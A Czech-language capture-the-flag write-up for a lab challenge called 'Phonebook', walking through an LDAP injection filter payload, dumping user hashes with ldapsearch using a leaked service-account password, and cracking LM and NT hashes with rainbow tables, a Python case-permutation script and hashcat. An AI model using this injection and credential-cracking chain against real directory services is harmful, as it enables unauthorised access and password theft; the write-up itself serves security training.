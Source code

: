 # Phonebook

## Zadání

```
Hi, packet inspector,

you should already get access to the phone book – as a new employee – but the AI is too busy right now. This condition can last several ... who knows ... years?

Your task is to gain access to the application running on http://phonebook.mysterious-delivery.tcc:40000.

May the Packet be with you!
```

## Řešení

### 1. LDAP

Ve zdrojovém kódu lze nalézt komentář:

```
<!-- New LDAP server host: 10.99.0.121 -->
<!-- 1/2/2022 Temporary search filter (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_))(memberof=cn=nonmigrated,ou=groups,dc=local,dc=tcc)) -->
<!-- 6/8/2022 Filter after migration  (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_}))) -->
```

Nejspíš se jedná o LDAP injection!
Filter ```*)(uid=*))(|(uid=*``` nám odhalí jednoho uživatele s heslem v description:
```
ldap_sync	Don't change password. gasg35faCasgt%AF
```

Pomocí tohoto účtu můžeme vypsat hashe všech LDAP uživatelů:
```
ldapsearch -x -b "dc=local,dc=tcc" -D "uid=ldap_sync,ou=people,dc=local,dc=tcc" -w "gasg35faCasgt%AF" -H ldap://10.99.0.121
```

```
...
# admin2, people, local.tcc
dn: uid=admin2,ou=people,dc=local,dc=tcc
objectClass: inetOrgPerson
objectClass: sambaSamAccount
cn: admin2
givenName: admin
sn: admin2
homePhone: 5452487532
mail: admin2@local.tcc
sambaSID: S-1-5-21-1528920847-3529959213-2887712062
sambaNTPassword: 32644235283BC5561CC7FE4FFFADDAEE
sambaLMPassword: 48448F207404DB05F3BAC3A9216F6D52
uid: admin2
description: Admin account
```

### 2. Cracknutí hesla

Nás zajimá uživatel `admin2`, prostřednictvím kterého se budeme moci přihlásit na webu a získat vlajku.
LM hash můžeme získat pomocí rainbow tables například na stránce http://rainbowtables.it64.com/

```
48448f207404db05 TOOSTRO 
f3bac3a9216f6d52 NGPASS. 
```

Víme tedy, že heslo začíná `TOOSTRONGPASS.` - pokud chceme znát heslo včetně velikosti písmen musíme použít i NT hash, který už takto jednoduše prolomit nelze. Dále může být heslo delší než 14 znaků, protože LM hash ukladá pouze prvních 14 znaků.

Vygenerování slovníku s různou velikostí písmen:

```python
PW = 'TOOSTRONGPASS'

def brute(p = ''):
    i = len(p)
    if i == len(PW):
        print(p + '.')
    else:
        brute(p + PW[i:i+1].lower())
        brute(p + PW[i:i+1])

brute()
```

Cracknutí NT hashe v hashcat (`pwd.txt` je slovník s různou velikostí `TOOSTRONGPASS.`, známý slovník `rockyou.txt` se použije pro kombinaci:
```
hashcat -m 1000 -a 1 hash.txt pwd.txt rockyou.txt

32644235283bc5561cc7fe4fffaddaee:TooStrongPass.2022
```

Přihlásíme se na stránce jako `admin2` + heslo `TooStrongPass.2022`.

## Vlajka

```
FLAG{iLcT-HnNF-egs3-mCSN}
```